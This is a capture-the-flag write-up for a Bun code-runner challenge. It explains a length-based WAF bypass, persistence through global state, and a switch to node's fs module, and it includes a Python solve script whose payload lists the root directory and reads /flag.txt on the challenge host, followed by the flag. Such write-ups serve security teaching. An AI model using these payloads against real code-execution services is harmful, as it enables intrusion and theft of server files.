 ```yaml
---
ai_date: '2025-04-27 05:15:00'
ai_summary: Bypassed WAF with input/output length restriction, used persistent prototype
  pollution, and leveraged async execution by bypassing Bun functions.
ai_tags:
- waf-bypass
- prototype-pollution
- async-exec
created: 2024-07-27T20:24
description: Easiest ever RCE
points: 400
solves: 11
tags:
- bun
updated: 2024-07-28T04:21
---
```


> I’ve created a super secure sinkless buntime, is it really secure?

## Analysis

### Bypass WAF

I tried using `Bun.file` etc to spawn shells but always encounter this weird error.

`WAF: Output Not allowed` or `WAF: Input Not allowed`.

I am not sure what caused them as they block innocent stuff but let others pass.

```js
/*eval*/
throw new Error(JSON.stringify(Bun.env))
// this fails

/*eval*/
// this runs

throw new Error(JSON.stringify(Bun.env))
// this runs

eval("1+1")
// this also runs
```

Eventually I realized that it worked on length, if input or output is longer than a set amount it will fail.

For input, I found it via comments.

```js
///////////////////////////////////////////////////    <- will fail
//////////////////////////////////////////////////     <- will work
```

For output, we can use `throw new Error(str)` to bypass the output restriction.

### Persistence

When trying to prototype pollute the server, I realized that my prototype pollutions are preserved.

This means that I am running code in the same context, that's good as I can store info in `global`. And don't have to somehow compress everything in one payload.
### Sync / Async

For some reason, await just wouldn't work at all.
So I decided to ditch Bun's functions and use node.js defaults. The `fs` module.

## Solve Script

IDK if the async import will cause the next lines to break, but since their effects persist, you can just run the script twice.

```python
import requests


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


payload = """
///////////////////////////////////////////////////
import("fs").then(fs=>global.fs=fs)
throw new Error(global.fs.readdirSync("/"))
global.flag=global.fs.readFileSync("/flag.txt")
throw new Error(global.flag)
""".strip()

print(payload)
print()
for l in payload.splitlines():
    r = requests.post("https://8dd1742bbfecae1ec5685380.deadsec.quest/run", json={"code": l})
    print(r.text)

"""
bun 1.1.20 (later than latest version but not related to the challenge)
"""
```

```flag
DEAD{BunT1m3_Fun_T1m3_Y0u_C4n_4lw4y$_Run_4$ync_1n$1d3_$ync}
```